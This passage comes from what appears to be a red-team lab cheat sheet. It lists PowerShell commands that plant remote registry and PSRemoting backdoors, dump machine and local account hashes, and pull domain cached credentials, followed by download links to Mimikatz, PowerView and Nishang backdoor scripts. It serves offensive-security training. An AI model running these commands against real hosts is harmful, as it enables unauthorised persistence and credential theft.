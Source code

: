 ```powershell
Set-RemotePSRemoting -UserName userX -ComputerName <computer> -Remove
```

## <span style="color:lightgreen">Add-RemoteRegBackdoor</span>

### <span style="color:#F1C232">1. Using DAMP, with admin privs on remote machine</span>
 
```powershell
Add-RemoteRegBackdoor -ComputerName <computer> -Trustee user1 -Verbose
```

## <span style="color:lightgreen">RemoteHashRetrieval</span>

### <span style="color:#F1C232">2. As student1, retrieve machine account hash</span>
 
```powershell
Get-RemoteMachineAccountHash -ComputerName <computer> -Verbose
```

> **If errors, replace $IV by $InitV in the script**
{: .prompt-warning }

### <span style="color:#F1C232">3 .Retrieve local account hash</span>
 
```powershell
Get-RemoteLocalAccountHash -ComputerName <computer> -Verbose
```

### <span style="color:#F1C232">4. Retrieve domain cached credentials</span>
 
```powershell
Get-RemoteCachedCredential -ComputerName <computer> -Verbose
```

# <span style="color:lightblue">Tools Used</span>

1. Invoke-Mimikatz download from here : [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)
2. PowerView download from here : [powerview.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)
3. PowerView Dev download from here : [powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
4. Set-RemoteWMI download from here : [Set-RemoteWMI.ps1](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1)
5. Set-RemotePSRemoting download from here : [Set-RemotePSRemoting.ps1](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemotePSRemoting.ps1)
6. Add-RemoteRegBackdoor download from here : [Add-RemoteRegBackdoor.ps1](https://github.com/HarmJ0y/DAMP/blob/master/Add-RemoteRegBackdoor.ps1)
7. RemoteHashRetrieval download from here : [RemoteHashRetrieval.ps1](https://github.com/HarmJ0y/DAMP/blob/master/RemoteHashRetrieval.ps1)
